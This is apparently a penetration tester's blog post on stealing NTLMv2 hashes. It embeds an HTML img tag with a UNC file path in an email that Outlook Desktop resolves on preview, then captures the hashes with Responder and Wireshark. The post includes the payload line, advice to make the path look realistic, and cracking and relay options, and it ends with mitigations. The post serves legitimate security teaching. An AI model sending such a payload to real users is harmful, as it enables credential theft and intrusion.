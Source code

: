 ```yaml
---
title:  "Getting that first Foothold - Stealing NTLMv2 hashes with ease"
header:
  teaser: "/assets/images/ntlmv2_captured.png"
categories:
  - NTLMv2 hashes
tags:
  - NTLMv2
  - hashes
  - Responder
  - Outlook
  - foothold
  - smb
  - llmnr
  - mdns
  - nbns
---
```


Well it's already been a month since my last post, and that's just way to long.  Time gets ahead of me these days, especially being as interested in so many areas of Infosec as I am.  Today I want to discuss a tried and true method of securing that first potential foothold on the target network for your pentest campaign.  Does this always work?  Absolutely not. However, you had better believe if certain items are in order it's highly probable you can carry this out undetected and with a few NTLMv2 hashes under your belt.

First things first, I don't want to explain what an NTLMv2 hash is.  There are copius amounts of information on the web and of course ChatGPT can elaborate even more on the specifics of the authentication challenge-response based protocol.

We are going to focus more on the actual attack methodology behind stealing these lovely hashes.  Let's start with some assumptions.  You will need at least ONE of these conditions to be true for this to work:

- Your target user base is using the Desktop Outlook client
- You know some user's company email addresses
- You are physically present, as in on the premises. OR... you are on the network via VPN, positioned in such a way that your attacker PC is on the same VLAN as the target PCs VLAN
- The target network firewall does NOT block ALL outbound ports 445, 139, 5353, and 5355 (Not entirely necessary for this write-up but just keep this in mind for later) 😺

***Stage 1 - Setup***
-

So, here's how it begins.  You will want to install this extention for Google Chrome to follow along on this particular route to get your coveted NTLMv2 hash:
[Insert HTML by Designmodo Chrome Extension](https://chrome.google.com/webstore/detail/insert-html-by-designmodo/bcflbfdlpegakpncdgmejelcolhmfkjh)

Also be sure to have **Wireshark** installed too.  In the event you are **on-site** or using **VPN**, I'd like to show you what you can see when this attack is carried out.  That will come a little later in the writeup.

Once you have both **Wireshark** and **Designmodo** installed, go to your gmail account (I'm assuming you have that too 😸 ) and create a new email message

Click on this envelope icon in the bottom, next to the big blue **Send** button: ![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f5ad0661-b401-4ee3-a5cc-b1f08d507562)

Next, type in the fake UNC path to your non-existent image: <img src="file://///silent/but/deadly.png">
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2632b2b7-e303-45cf-ba05-ad72a29e2a1d)

Then, Choose `Insert HTML`
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/e38ace21-9cc9-40ea-859b-16e8943db708)

The body of your email message should have a broken image inside it, like so:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/be4c948d-2b75-4142-bff4-1c2531364bd1)

Okay, we're almost ready to send this now.  But before we do, I want you to know that the user does not even have to fully open the email for this to work.  They only merely have to **Preview** it in **Outlook** and this works immediately!

- Go ahead and fire up **Wireshark**, select your sniffing interface, and start listening for traffic...if you are on-site or using VPN and on the same VLAN as the customer user base.

- Also, we will need to load a tool called Responder which can intercept LLMNR, NBNS, and MDNS traffic.  This needs to run on the same network as the victim.

  Here's the link to the tool: [Responder for Linux](https://github.com/lgandx/Responder.git)

- Finally, you can now send that email to your target's email address and we will move on to phase 2 of the attack!

***Stage 2 - Infiltration***
-

When your email arrives, the target user will see what is captured in the below image.  Be sure to name the uncpath something realistic as they will be able to see this in the email preview:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/a53ba76c-73cd-4755-9b46-ceb64d955cbf)

On your Linux Box, you should see a captured NTLMv2 hash assuming the user interacts with your email!  Here's what mine looks like.  Keep in mind I already captured this hash so it shows a different message but trust me, it worked:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/ae4ed132-5e3c-4a2e-b2c4-c16681c02db1)

And Wireshark...

Do a Control + F and type in `silent` or whatever word you used in your UNC filepath:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/5b85d79d-d9a6-4931-869b-eb8e6be80e81)

You can see your exact packet contents after the target user interacted with your email.  I say interacted...remember, they don't even need to fully open it, as in double clicking on it.  Just previewing it is enough

From here, you can crack the password using hashcat or relay it to another computer, the skies the limit!  

***Addendum***
-

You can also send the hash outside of the target company network to a device you control on an entirely different ISP, AWS, Azure, etc.  This would mean you don't have to be on-premesis at all.  HOWEVER, the company firewall MUST ALLOW the ports for these protocols outbound for you to receive the hash.

I don't have time to demo this today, but I can show you sometime if I get enough people asking for a demonstration.  😸

***Lessons Learned***
-

I tried blocking all images in Outlook and this attack still works.  I'm shocked actually.  Given the right circumstances, this is quite trivial to carry out.  Long story short:

- Disable Legacy protocols such as LLMNR, NBNS, AND MDNS.
- Use the highest available SMB/NTLM security offering.  Such as this one:** Send NTLMv2 responses only. Refuse LM & NTLM**
- Block the corresponding ports for LLMNR, NBNS, and MDNS outbound on your firewall
- Figure out how to make Outlook Desktop client better or turn off email previews 😕

  Know of other ways to combat this attack?  Feel free to comment below or hit me up on X!
  thanks everyone!

**-R.B.C.**
